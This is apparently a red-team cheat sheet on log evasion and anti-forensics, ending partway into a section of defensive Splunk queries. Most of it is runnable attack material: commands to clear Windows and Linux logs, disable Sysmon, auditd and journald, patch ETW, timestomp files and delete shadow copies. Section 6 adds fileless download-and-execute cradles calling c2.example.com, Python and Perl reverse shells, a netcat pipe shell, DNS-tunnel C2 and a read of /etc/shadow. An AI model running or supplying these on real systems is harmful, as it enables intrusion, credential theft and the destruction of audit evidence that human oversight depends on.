

# Log Evasion & Anti-Forensics

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Introduction & OPSEC Context](#1-introduction--opsec-context)
2. [Windows Logging Landscape](#2-windows-logging-landscape)
3. [Linux Logging Landscape](#3-linux-logging-landscape)
4. [Windows Log Clearing & Evasion](#4-windows-log-clearing--evasion)
5. [Linux Log Clearing & Evasion](#5-linux-log-clearing--evasion)
6. [Anti-Forensics Techniques](#6-anti-forensics-techniques)
7. [What Defenders Rely On](#7-what-defenders-rely-on)
8. [Detection vs Evasion Diagram](#8-detection-vs-evasion-diagram)
9. [OPSEC Checklist](#9-opsec-checklist)
10. [Artifacts That Survive Log Clearing](#10-artifacts-that-survive-log-clearing)
11. [When NOT to Clear Logs](#11-when-not-to-clear-logs)
12. [References & Further Reading](#12-references--further-reading)

---

## 1. Introduction & OPSEC Context

Log evasion and anti-forensics are core disciplines within red team operations. The objective is not simply to "delete logs" — it is to operate in a manner that minimises the forensic footprint while achieving mission objectives. Indiscriminate log clearing is a high-visibility action that trained defenders and automated SIEMs detect within seconds.

> **Note:** The goal of a mature red team is to operate *below the noise floor* of the target's detection capability. Clearing logs noisily is often worse than leaving them intact, because deletion itself is an auditable event (Event ID 1102, 104).

> **Warning:** Unauthorised log tampering on systems you do not own or have explicit written permission to test is illegal under the Computer Fraud and Abuse Act (CFAA), UK Computer Misuse Act, and equivalent legislation in most jurisdictions. This document is for **authorised penetration testing and red team engagements only**.

### 1.1 The OPSEC Mindset

Operational Security (OPSEC) for red teams is a five-step process applied continuously:

1. **Identify critical information** — what artefacts does your activity generate?
2. **Analyse threats** — who is monitoring, and what are their capabilities?
3. **Analyse vulnerabilities** — which of your artefacts are observable?
4. **Assess risk** — what is the probability and impact of detection?
5. **Apply countermeasures** — reduce, obfuscate, or eliminate the artefact.

> **Note:** The best log evasion technique is *not generating the log in the first place*. Living-off-the-land (LOLBin) techniques, memory-only payloads, and encrypted C2 channels should be preferred over post-hoc cleanup.

### 1.2 Attacker Goals vs Defender Goals

| Attacker Goal | Defender Goal |
|---|---|
| Complete objective undetected | Detect and respond to intrusions |
| Minimise forensic footprint | Preserve evidence for IR/legal |
| Blend into normal traffic | Identify anomalies in telemetry |
| Maximise dwell time | Minimise mean-time-to-detect (MTTD) |
| Avoid attribution | Attribute activity to threat actor |

---

## 2. Windows Logging Landscape

### 2.1 Core Event Log Channels

| Log Channel | Default Path | Retention | Key Purpose |
|---|---|---|---|
| Security | `C:\Windows\System32\winevt\Logs\Security.evtx` | Wraps (configurable) | Logons, privilege use, object access |
| System | `C:\Windows\System32\winevt\Logs\System.evtx` | Wraps | Driver/service events, reboots |
| Application | `C:\Windows\System32\winevt\Logs\Application.evtx` | Wraps | Application errors, custom events |
| PowerShell Operational | `C:\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx` | Wraps | Script block logging, module logging |
| PowerShell Classic | `C:\Windows\System32\winevt\Logs\Windows PowerShell.evtx` | Wraps | Legacy PS engine events |
| Sysmon Operational | `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx` | Wraps | Advanced process/network/registry telemetry |
| Task Scheduler Operational | `C:\Windows\System32\winevt\Logs\Microsoft-Windows-TaskScheduler%4Operational.evtx` | Wraps | Scheduled task creation/execution |
| WMI Activity Operational | `C:\Windows\System32\winevt\Logs\Microsoft-Windows-WMI-Activity%4Operational.evtx` | Wraps | WMI subscriptions and queries |
| Bits Client Operational | `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Bits-Client%4Operational.evtx` | Wraps | Background Intelligent Transfer Service |

### 2.2 Key Event IDs

| Event ID | Log Channel | Description | Why Defenders Care |
|---|---|---|---|
| 4624 | Security | Successful account logon | Baseline normal; anomalies signal lateral movement |
| 4625 | Security | Failed account logon | Brute force indicator |
| 4648 | Security | Logon using explicit credentials (runas) | Pass-the-hash, credential stuffing |
| 4672 | Security | Special privileges assigned to logon | Admin-level access granted |
| 4688 | Security | New process created | Process execution telemetry (requires audit policy) |
| 4697 | Security | Service installed in the system | Persistence via service |
| 4698 | Security | Scheduled task created | Persistence via scheduled task |
| 4720 | Security | User account created | New backdoor account |
| 4732 | Security | Member added to security-enabled local group | Privilege escalation (Administrators group) |
| 7045 | System | New service installed | Persistence/rootkit detection |
| 1102 | Security | Audit log cleared | **Direct indicator of tampering** |
| 104 | System | Event log cleared (System channel) | **Direct indicator of tampering** |
| 4104 | PowerShell Operational | Script block logging — script content captured | Full PowerShell code at runtime |
| 4103 | PowerShell Operational | Module logging | Cmdlet-level pipeline execution |
| Sysmon 1 | Sysmon Operational | Process creation with full command line | Enrich 4688 with hashes and parent |
| Sysmon 3 | Sysmon Operational | Network connection | Outbound C2 detection |
| Sysmon 11 | Sysmon Operational | File creation | Dropper, payload landing |
| Sysmon 13 | Sysmon Operational | Registry value set | Persistence key modification |
| Sysmon 22 | Sysmon Operational | DNS query | C2 domain resolution |

### 2.3 Windows Event Forwarding (WEF)

Windows Event Forwarding allows domain-joined endpoints to push selected events to a central Windows Event Collector (WEC) server using the WS-Management protocol. Once forwarded, events reside in the collector's `ForwardedEvents` log channel and are typically ingested into a SIEM.

**Key implication for attackers:** Clearing a local event log **does not** delete events already forwarded. Event ID 1102 on the source host will also forward to the collector, immediately alerting analysts.

WEF subscriptions are defined in `%SystemRoot%\System32\wbem\wecutil.exe` and stored in the registry at:
`HKLM\SOFTWARE\Policies\Microsoft\Windows\EventLog\EventForwarding\SubscriptionManager`

### 2.4 SIEM Ingestion

Most enterprise SIEMs (Splunk, Microsoft Sentinel, Elastic SIEM, IBM QRadar) ingest Windows events either via:

- **WEF → WEC → Syslog/API** — collector forwards to SIEM
- **Agent-based** — Splunk Universal Forwarder, Elastic Agent, or CrowdStrike Falcon agent shipping events in near-real-time

> **Warning:** Agent-based forwarding is particularly resilient. Killing or tampering with a Splunk UF or Elastic Agent generates its own alert and the gap in telemetry itself becomes an anomaly indicator.

---

## 3. Linux Logging Landscape

### 3.1 Core Log Files

| Log File | Present On | Contents | Forensic Value |
|---|---|---|---|
| `/var/log/auth.log` | Debian/Ubuntu | SSH, sudo, PAM authentication | Logon source IPs, sudo commands |
| `/var/log/secure` | RHEL/CentOS/Fedora | SSH, sudo, PAM authentication | Same as auth.log for RPM-based distros |
| `/var/log/syslog` | Debian/Ubuntu | General system messages | Broad system activity |
| `/var/log/messages` | RHEL/CentOS | General system messages | Same as syslog for RPM-based distros |
| `/var/log/wtmp` | All | Binary — successful logins (read via `last`) | Login history, source IPs |
| `/var/log/btmp` | All | Binary — failed logins (read via `lastb`) | Brute force attempts |
| `/var/log/lastlog` | All | Binary — last login per user (read via `lastlog`) | Timestamps per account |
| `/var/log/faillog` | Debian/Ubuntu | Failed login counts per user | Account lockout data |
| `/var/log/cron` / `/var/log/cron.log` | All | Cron job execution | Scheduled task persistence |
| `/var/log/kern.log` | Debian/Ubuntu | Kernel ring buffer messages | Driver loading, rootkits |
| `/var/log/dpkg.log` | Debian/Ubuntu | Package install/remove | Software installed by attacker |
| `/var/log/yum.log` / `/var/log/dnf.log` | RHEL/CentOS | Package install/remove | Software installed by attacker |
| `/var/log/audit/audit.log` | All (auditd) | Kernel-level syscall audit | File access, privilege escalation, execve |
| `/run/log/journal/` | Systemd | Binary journal (read via `journalctl`) | Comprehensive structured log data |

### 3.2 Shell History Files

| Shell | History File | Environment Variable | Notes |
|---|---|---|---|
| Bash | `~/.bash_history` | `HISTFILE`, `HISTSIZE`, `HISTFILESIZE` | Written on shell exit; configurable |
| Zsh | `~/.zsh_history` | `HISTFILE`, `HISTSIZE`, `SAVEHIST` | Supports timestamps with `EXTENDED_HISTORY` |
| Fish | `~/.local/share/fish/fish_history` | N/A (YAML format) | Cannot be easily suppressed |
| Ksh | `~/.sh_history` | `HISTFILE` | Similar to bash |
| Tcsh | `~/.history` | `histfile` | Older UNIX shell |
| Python REPL | `~/.python_history` | N/A | Records interactive Python commands |

### 3.3 Auditd

Auditd is the Linux kernel audit subsystem. It captures syscall-level events configured via rules in `/etc/audit/audit.rules` or `/etc/audit/rules.d/*.rules`.

```bash
# View current audit rules
auditctl -l

# Monitor all execve calls (process execution)
auditctl -a always,exit -F arch=b64 -S execve -k exec_monitoring

# Monitor reads/writes to /etc/passwd and /etc/shadow
auditctl -w /etc/passwd -p rwa -k passwd_changes
auditctl -w /etc/shadow -p rwa -k shadow_changes

# Monitor privileged commands
auditctl -a always,exit -F path=/usr/bin/sudo -F perm=x -F auid>=1000 -k sudo_usage

# View audit log
ausearch -k exec_monitoring
ausearch -k passwd_changes --start today

# Generate report
aureport --summary
aureport --auth --summary
```

### 3.4 Journald

Systemd journal collects logs from all systemd units, the kernel, and syslog socket.

```bash
# View all logs since boot
journalctl -b

# View logs for a specific unit
journalctl -u sshd --since "2024-01-01" --until "2024-12-31"

# Follow live logs (like tail -f)
journalctl -f

# View kernel messages
journalctl -k

# Filter by priority (0=emerg, 7=debug)
journalctl -p err -b

# Show logs for specific PID
journalctl _PID=1234

# Export to JSON for analysis
journalctl -o json-pretty | head -100

# Check journal disk usage
journalctl --disk-usage

# Vacuum old journal entries (remove entries older than 7 days)
journalctl --vacuum-time=7d
```

---

## 4. Windows Log Clearing & Evasion

> **Warning:** All techniques in this section generate high-fidelity alerts. Event ID 1102 is forwarded to SIEMs in milliseconds in mature environments. Prefer the non-clearing techniques in Section 6 whenever possible.

### 4.1 Clearing Event Logs with wevtutil

`wevtutil` is a built-in Windows utility for managing event logs. It is itself a LOLBin.

```bash
# List all available log channels
wevtutil el

# Clear a specific log channel
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
wevtutil cl "Microsoft-Windows-Sysmon/Operational"
wevtutil cl "Microsoft-Windows-TaskScheduler/Operational"
wevtutil cl "Microsoft-Windows-WMI-Activity/Operational"

# Clear ALL logs using a loop (cmd.exe)
for /F "tokens=*" %L in ('wevtutil el') do wevtutil cl "%L"

# Query events before clearing (verify you're targeting the right log)
wevtutil qe Security /count:10 /format:text

# Export log to file before clearing (analyst use)
wevtutil epl Security C:\Temp\Security_backup.evtx
```

### 4.2 PowerShell Log Clearing

```powershell
# Clear all event logs using PowerShell
Get-EventLog -List | ForEach-Object { Clear-EventLog -LogName $_.Log }

# Clear a specific log channel
[System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog("Security")
[System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog("System")
[System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog("Microsoft-Windows-PowerShell/Operational")

# Disable PowerShell Script Block Logging via registry
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" `
    -Name "EnableScriptBlockLogging" -Value 0 -Force

# Disable Module Logging
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging" `
    -Name "EnableModuleLogging" -Value 0 -Force

# Disable Transcription Logging
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription" `
    -Name "EnableTranscripting" -Value 0 -Force

# Remove PowerShell ConsoleHost_history.txt (interactive history)
Remove-Item "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -Force
```

### 4.3 Disabling and Unloading Sysmon

> **Warning:** Sysmon interacts with the kernel via a minifilter driver. Disabling it requires elevated (SYSTEM) privileges and will generate Event ID 4 (Sysmon service state changed) and a Windows System event. EDR solutions monitor Sysmon process termination.

```bash
# Stop Sysmon service (requires SYSTEM/Admin)
sc stop Sysmon
sc stop Sysmon64

# Uninstall Sysmon driver
Sysmon.exe -u

# Uninstall Sysmon silently (no prompt)
Sysmon64.exe -u force

# Alternative: disable via service control manager
sc config Sysmon64 start= disabled
net stop Sysmon64
```

### 4.4 ETW (Event Tracing for Windows) Patching

ETW is the underlying infrastructure that feeds most Windows logging subsystems. Patching the `EtwEventWrite` function in `ntdll.dll` within the current process can suppress telemetry generated by that process. This is a per-process technique and does not affect system-wide logging.

```powershell
# ETW patching via P/Invoke in current PowerShell process
# This patches EtwEventWrite in ntdll.dll to return immediately (ret instruction)
$PatchEtw = @"
using System;
using System.Runtime.InteropServices;

public class EtwPatch {
    [DllImport("ntdll.dll")]
    public static extern int NtProtectVirtualMemory(
        IntPtr hProcess, ref IntPtr BaseAddress,
        ref IntPtr RegionSize, uint NewProtect, ref uint OldProtect);

    public static void Patch() {
        var ntdll      = System.Diagnostics.Process.GetCurrentProcess().Modules;
        IntPtr etwAddr = IntPtr.Zero;
        foreach (System.Diagnostics.ProcessModule m in ntdll) {
            if (m.ModuleName == "ntdll.dll") {
                etwAddr = m.BaseAddress;
                break;
            }
        }
        IntPtr etwFunc = GetProcAddress(GetModuleHandle("ntdll.dll"), "EtwEventWrite");
        IntPtr region  = etwFunc;
        IntPtr size    = (IntPtr)4;
        uint   oldProt = 0;
        NtProtectVirtualMemory((IntPtr)(-1), ref region, ref size, 0x40, ref oldProt);
        // Write RET opcode (0xC3) to first byte of EtwEventWrite
        Marshal.WriteByte(etwFunc, 0xC3);
        NtProtectVirtualMemory((IntPtr)(-1), ref region, ref size, oldProt, ref oldProt);
    }

    [DllImport("kernel32.dll")]
    public static extern IntPtr GetProcAddress(IntPtr hMod, string procName);
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetModuleHandle(string modName);
}
"@
Add-Type -TypeDefinition $PatchEtw
[EtwPatch]::Patch()
Write-Host "[*] ETW patched for this process"
```

> **Note:** Modern EDR solutions monitor for suspicious memory writes to ntdll.dll and may alert on or block this technique. Consider per-process ETW disabling only after EDR evasion is confirmed.

### 4.5 Timestomping

Timestomping modifies the MACB timestamps (Modified, Accessed, Changed, Born/$Created) of files to blend into the filesystem timeline.

```powershell
# Timestomp a file to match a legitimate system file using PowerShell
$targetFile  = "C:\Windows\Temp\payload.exe"
$referenceFile = "C:\Windows\System32\notepad.exe"

$ref  = Get-Item $referenceFile
$tgt  = Get-Item $targetFile

$tgt.CreationTime     = $ref.CreationTime
$tgt.LastWriteTime    = $ref.LastWriteTime
$tgt.LastAccessTime   = $ref.LastAccessTime

# Set to a specific date manually
$tgt.CreationTime     = [datetime]"2022-06-15 08:23:11"
$tgt.LastWriteTime    = [datetime]"2022-06-15 08:23:11"
$tgt.LastAccessTime   = [datetime]"2022-06-15 10:05:00"

Write-Host "[*] Timestamps modified on $targetFile"
```

```bash
# Metasploit timestomp post-exploitation module
# After obtaining a Meterpreter session:
meterpreter > timestomp C:\\Windows\\Temp\\payload.exe -z "06/15/2022 08:23:11"
meterpreter > timestomp C:\\Windows\\Temp\\payload.exe -f C:\\Windows\\System32\\notepad.exe
meterpreter > timestomp C:\\Windows\\Temp\\payload.exe -v

# Linux touch command to modify timestamps
touch -t 202206150823.11 /tmp/payload
touch -a -m -t 202206150823.11 /tmp/payload
```

> **Warning:** Timestomping only modifies the $STANDARD_INFORMATION timestamps in the NTFS MFT. The $FILE_NAME attribute timestamps are not modified by standard user-mode calls and will reveal the discrepancy to forensic analysts using MFTECmd or Autopsy.

### 4.6 Disabling Windows Prefetch

Windows Prefetch files (`C:\Windows\Prefetch\*.pf`) record executed program names, timestamps, and loaded DLLs. Disabling Prefetch prevents new entries but does not remove existing ones.

```powershell
# Disable Windows Prefetch via registry
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" `
    -Name "EnablePrefetcher" -Value 0 -Force

Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" `
    -Name "EnableSuperfetch" -Value 0 -Force

# Delete existing Prefetch files
Remove-Item "C:\Windows\Prefetch\*.pf" -Force

# Check current setting (0=disabled, 1=app only, 2=boot only, 3=both)
Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters"
```

### 4.7 Volume Shadow Copy Deletion

Volume Shadow Copies (VSS) provide point-in-time snapshots that forensic analysts and IR teams can use to recover deleted files and prior versions.

```bash
# Delete all volume shadow copies using vssadmin (requires Admin)
vssadmin delete shadows /all /quiet

# Delete using wmic
wmic shadowcopy delete

# Delete using PowerShell
Get-WmiObject Win32_ShadowCopy | ForEach-Object { $_.Delete() }

# Delete using diskshadow (LOLBin)
diskshadow.exe /s C:\Temp\shadow_del.txt
# Contents of shadow_del.txt:
# delete shadows all
# exit

# List existing shadows before deleting
vssadmin list shadows
Get-WmiObject Win32_ShadowCopy | Select-Object DeviceObject, InstallDate, VolumeName
```

---

## 5. Linux Log Clearing & Evasion

### 5.1 Clearing Bash History

```bash
# Method 1: Redirect HISTFILE to /dev/null for current session
export HISTFILE=/dev/null

# Method 2: Set history size to zero (stops recording)
export HISTSIZE=0
export HISTFILESIZE=0

# Method 3: Unset HISTFILE entirely
unset HISTFILE

# Method 4: Disable history at shell startup (put in ~/.bashrc or use interactively)
set +o history

# Method 5: Clear in-memory history and truncate file
history -c
history -w  # writes the (now empty) in-memory history to file
cat /dev/null > ~/.bash_history

# Method 6: Overwrite history file securely
shred -u -z -n 3 ~/.bash_history && touch ~/.bash_history

# Method 7: Prevent writing history on exit by linking to /dev/null
ln -sf /dev/null ~/.bash_history

# For Zsh history
unset HISTFILE
export SAVEHIST=0
cat /dev/null > ~/.zsh_history

# Prepend command with space to avoid recording (requires HISTCONTROL=ignorespace)
export HISTCONTROL=ignorespace
 whoami   # space before command — not recorded
```

### 5.2 Removing Entries from Text Log Files with sed

```bash
# Remove all lines containing a specific IP address from auth.log
IP="192.168.1.100"
sed -i "/$IP/d" /var/log/auth.log
sed -i "/$IP/d" /var/log/secure
sed -i "/$IP/d" /var/log/syslog

# Remove lines containing a specific username
USERNAME="backdoor_user"
sed -i "/${USERNAME}/d" /var/log/auth.log
sed -i "/${USERNAME}/d" /var/log/secure

# Remove lines for a specific date range (e.g., Jan 15)
sed -i '/Jan 15/d' /var/log/auth.log

# Remove SSH accepted lines for a specific user
sed -i "/Accepted.*${USERNAME}/d" /var/log/auth.log

# Remove sudo usage lines
sed -i "/sudo.*${USERNAME}/d" /var/log/auth.log

# Edit rotated logs as well
for f in /var/log/auth.log*; do
    if file "$f" | grep -q "text"; then
        sed -i "/$IP/d" "$f"
    fi
done

# Sanitize /var/log/syslog
sed -i "/$IP/d" /var/log/syslog
sed -i "/cron.*${USERNAME}/d" /var/log/cron
```

### 5.3 Clearing Binary Log Files (wtmp, btmp, lastlog)

```bash
# Dump wtmp to text, edit, and re-encode
utmpdump /var/log/wtmp > /tmp/wtmp.txt
# Manually edit /tmp/wtmp.txt to remove your session lines
vi /tmp/wtmp.txt
utmpdump -r /tmp/wtmp.txt > /var/log/wtmp
rm /tmp/wtmp.txt

# Dump and edit btmp (failed logins)
utmpdump /var/log/btmp > /tmp/btmp.txt
vi /tmp/btmp.txt
utmpdump -r /tmp/btmp.txt > /var/log/btmp
rm /tmp/btmp.txt

# Truncate wtmp/btmp entirely (destroys all records)
cat /dev/null > /var/log/wtmp
cat /dev/null > /var/log/btmp

# Zero out lastlog for a specific user (requires Python)
python3 -c "
import struct, pwd
user  = '$USERNAME'
pw    = pwd.getpwnam(user)
uid   = pw.pw_uid
entry = b'\x00' * 292  # lastlog record size
with open('/var/log/lastlog', 'r+b') as f:
    f.seek(uid * 292)
    f.write(entry)
print('[*] lastlog cleared for', user)
"

# Verify with last and lastb
last -5
lastb -5
lastlog | grep "$USERNAME"
```

### 5.4 Disabling Auditd

```bash
# Stop the auditd service (may require specific approach per distro)
service auditd stop
systemctl stop auditd

# Disable auditd from starting on boot
systemctl disable auditd
chkconfig auditd off

# Temporarily disable audit rules without stopping the service
auditctl -e 0   # disable auditing
auditctl -e 2   # re-enable (for reference)

# Remove all audit rules
auditctl -D

# Set the audit log file to /dev/null
sed -i 's|^log_file.*|log_file = /dev/null|' /etc/audit/auditd.conf
service auditd restart
```

### 5.5 Disabling Journald

```bash
# Stop systemd-journald
systemctl stop systemd-journald

# Redirect journal storage to volatile (memory only, lost on reboot)
echo 'Storage=volatile' >> /etc/systemd/journald.conf
systemctl restart systemd-journald

# Set max journal size to 0 (no persistent storage)
echo 'SystemMaxUse=0' >> /etc/systemd/journald.conf

# Vacuum all journal logs
journalctl --vacuum-size=1K
journalctl --vacuum-time=1s

# Remove journal files directly
rm -rf /var/log/journal/*
systemctl restart systemd-journald
```

### 5.6 Secure File Deletion

```bash
# shred — overwrite file 3 times, then zero-fill, then delete
shred -u -z -n 3 /tmp/payload.sh
shred -u -z -n 3 /var/tmp/exploit

# srm (secure-delete package on Debian/Ubuntu)
apt-get install -y secure-delete
srm -vz /tmp/payload.sh

# dd overwrite before deletion (for filesystems that may journal)
dd if=/dev/urandom of=/tmp/payload.sh bs=1 count=$(stat -c%s /tmp/payload.sh)
rm -f /tmp/payload.sh

# Overwrite a directory recursively with shred
find /tmp/attacker_tools/ -type f -exec shred -u -z -n 3 {} \;
rm -rf /tmp/attacker_tools/

# wipe a file using Python
python3 -c "
import os
f   = '/tmp/evil.sh'
sz  = os.path.getsize(f)
with open(f, 'ba+', buffering=0) as fh:
    fh.write(b'\x00' * sz)
os.remove(f)
"
```

> **Note:** Secure deletion is ineffective on SSDs with wear-levelling, copy-on-write filesystems (ZFS, Btrfs), or systems with snapshots/LVM thin provisioning. The only reliable method on SSDs is full-disk encryption with key destruction or TRIM/ATA Secure Erase.

### 5.7 Clearing Syslog and Rotated Archives

```bash
# Truncate active syslog
cat /dev/null > /var/log/syslog
cat /dev/null > /var/log/messages
cat /dev/null > /var/log/auth.log
cat /dev/null > /var/log/secure

# Remove rotated compressed logs
rm -f /var/log/syslog.1
rm -f /var/log/syslog.2.gz
rm -f /var/log/auth.log.1
rm -f /var/log/auth.log.2.gz

# Remove all rotated archives for a log (example for auth.log)
find /var/log/ -name "auth.log*" -delete
find /var/log/ -name "secure*" -delete
find /var/log/ -name "syslog*" -delete

# Restart rsyslog to clear file handles and reset
systemctl restart rsyslog
service rsyslog restart
```

---

## 6. Anti-Forensics Techniques

### 6.1 Memory-Only (Fileless) Operations

Fileless techniques execute code entirely in memory without writing a persistent executable to disk, eliminating many artefacts.

```bash
# Linux: Download and execute a script entirely in memory using bash process substitution
bash <(curl -s https://c2.example.com/payload.sh)

# Linux: Execute via /proc/self/fd (no file written to disk)
exec 3< <(curl -s https://c2.example.com/payload.sh); bash /proc/self/fd/3; exec 3<&-

# Linux: Use memfd_create for ELF execution in memory (requires Python)
python3 -c "
import ctypes, os, sys, urllib.request
libc    = ctypes.CDLL(None)
fd      = libc.memfd_create(b'', 1)
data    = urllib.request.urlopen('https://c2.example.com/elf').read()
os.write(fd, data)
os.execve('/proc/self/fd/%d' % fd, [''], os.environ)
"

# Windows: Reflective DLL injection via PowerShell (Invoke-ReflectivePEInjection)
IEX (New-Object Net.WebClient).DownloadString('https://c2.example.com/Invoke-ReflectivePEInjection.ps1')

# Windows: Execute .NET assembly in memory (execute-assembly pattern)
# Using Cobalt Strike: execute-assembly /path/to/tool.exe args
# Using custom loader:
$bytes  = (New-Object Net.WebClient).DownloadData('https://c2.example.com/tool.exe')
$asm    = [System.Reflection.Assembly]::Load($bytes)
$entry  = $asm.EntryPoint
$entry.Invoke($null, @(,[string[]]@()))
```

### 6.2 Living off the Land (LOLBins / LOLBas)

Use trusted system binaries to perform attacker actions, reducing the need to drop foreign tools.

```bash
# Windows LOLBins — Download and execute
# certutil: download file
certutil -urlcache -split -f https://c2.example.com/payload.exe C:\Windows\Temp\p.exe

# bitsadmin: background download
bitsadmin /transfer job /download /priority normal https://c2.example.com/payload.exe C:\Temp\p.exe

# mshta: execute HTA/VBScript from URL
mshta https://c2.example.com/payload.hta

# regsvr32: execute COM scriptlet (squiblydoo)
regsvr32 /s /n /u /i:https://c2.example.com/payload.sct scrobj.dll

# wmic: execute process remotely
wmic /node:192.168.1.10 process call create "cmd.exe /c whoami > C:\Temp\out.txt"

# msiexec: install MSI from URL
msiexec /q /i https://c2.example.com/payload.msi

# rundll32: execute DLL export
rundll32.exe C:\Windows\Temp\evil.dll,EntryPoint

# Linux GTFOBins — Abuse trusted binaries
# python: reverse shell
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("192.168.1.100",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"])'

# awk: read sensitive files
awk 'BEGIN {while ((getline line < "/etc/shadow") > 0) print line}'

# find: execute payload
find / -name "*.conf" -exec bash -c 'id' \;

# perl: reverse shell
perl -e 'use Socket; $i="192.168.1.100"; $p=4444; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); connect(S,sockaddr_in($p,inet_aton($i))); open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");'
```

### 6.3 Avoiding Disk Writes

```bash
# Linux: Use /dev/shm (RAM-backed tmpfs) for temporary tools
cp /tmp/tool /dev/shm/tool && chmod +x /dev/shm/tool
/dev/shm/tool --arg1 arg2
rm /dev/shm/tool

# Linux: Use named pipes to avoid touching disk
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l 4444 > /tmp/fifo

# Linux: Compile and execute in /dev/shm
gcc /dev/stdin -o /dev/shm/exploit << 'CSRC'
#include <stdio.h>
int main(){ system("/bin/bash -p"); return 0; }
CSRC
/dev/shm/exploit

# Windows: Alternate Data Streams (ADS) to hide files
# Write payload to ADS of a legitimate file
type payload.exe > C:\Windows\Temp\legit.txt:hidden.exe
wmic process call create "C:\Windows\Temp\legit.txt:hidden.exe"

# Windows: Execute from memory using PowerShell (no file on disk)
$url   = "https://c2.example.com/payload.ps1"
$code  = (New-Object Net.WebClient).DownloadString($url)
Invoke-Expression $code

# Windows: Store payload in registry and execute from there
$b64payload = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\payload.exe"))
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion" -Name "Update" -Value $b64payload
$bytes  = [Convert]::FromBase64String((Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion").Update)
$asm    = [Reflection.Assembly]::Load($bytes)
$asm.EntryPoint.Invoke($null, $null)
```

### 6.4 Covering Network Tracks

```bash
# HTTPS C2: blend into normal HTTPS traffic using standard ports
# Cobalt Strike: set jitter, use malleable C2 profiles that mimic known software
# Metasploit: use reverse_https handler
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_https; set LHOST 0.0.0.0; set LPORT 443; run"

# DNS tunneling: use dnscat2 for C2 over DNS queries
# Server side:
ruby dnscat2.rb --dns "domain=attacker.com,host=0.0.0.0" --no-cache
# Client side (Windows):
dnscat2-v0.07-client-win32.exe attacker.com
# Client side (Linux):
./dnscat attacker.com

# SSH tunneling: proxy attacker traffic through a compromised host
# Local port forward (access internal service via jump host)
ssh -N -L 3389:10.10.10.5:3389 user@jumphost.example.com

# Dynamic SOCKS proxy via SSH
ssh -N -D 1080 user@jumphost.example.com
# Then use: proxychains nmap -sT -p 80,443,8080 10.10.10.0/24

# HTTP/HTTPS proxying via compromised web server (reGeorg, Neo-reGeorg)
python reGeorgSocksProxy.py -p 1080 -u http://compromised.example.com/tunnel.php

# ICMP tunneling (ptunnel-ng)
# Server:
ptunnel-ng
# Client:
ptunnel-ng -p compromised.example.com -lp 1080 -da 192.168.1.100 -dp 22
```

---

## 7. What Defenders Rely On

### 7.1 Splunk Detection Queries

```splunk
| Detect Security Event Log Cleared (Event ID 1102)
index=windows EventCode=1102 OR EventCode=104
| table _time, host, EventCode, Message, user
| sort -_time
```

```splunk
| Suspicious PowerShell Execution (encoded commands, download cradles)
index=windows EventCode=4688 (process_name="*powershell*" OR process_name="*pwsh*")
  (cmdline="*-EncodedCommand*" OR cmdline="*-enc *" OR cmdline="*DownloadString*"
   OR cmdline="*IEX*" OR cmdline="*Invoke-Expression*" OR cmdline="*WebClient*"
   OR cmdline="*bypass*")
| table _time, host, user, cmdline
| sort -_time
```

```splunk
| New Local Administrator Account Created (Event ID 4720 + 4732)
index=windows (EventCode=4720 OR EventCode=4732)
| eval action=if(EventCode==4720,"Account Created","Added to Group")
| table _time, host, action, TargetUserName, SubjectUserName, GroupName
| sort -_time
```

```splunk
| Suspicious Scheduled Task Creation (Event ID 4698)
index=windows EventCode=4698
| rex field=Message "Task Name:\s+(?<task_name>[^\n]+)"
| rex field=Message "Command:\s+(?<command>[^\n]+)"
| search command="*powershell*" OR command="*cmd*" OR command="*wscript*" OR command="*mshta*"
| table _time, host, SubjectUserName, task_name, command
```

```splunk
| Kerberoasting Detection (Event ID 4769 — RC4 encrypted TGS ticket)
index=windows EventCode=4769 TicketEncryptionType=0x17
| stats count by _time, ServiceName, IpAddress, TicketEncryptionType
| where count > 5
| sort -count
```

```splunk
| Pass-the-Hash Detection (Event ID 4624 with logon type 3, NtLm auth, no workstation)
index=windows EventCode=4624 LogonType=3 AuthenticationPackageName=NTLM
  WorkstationName="-" NOT TargetUserName="ANONYMOUS LOGON"
| table _time, host, TargetUserName, IpAddress, WorkstationName, LogonType
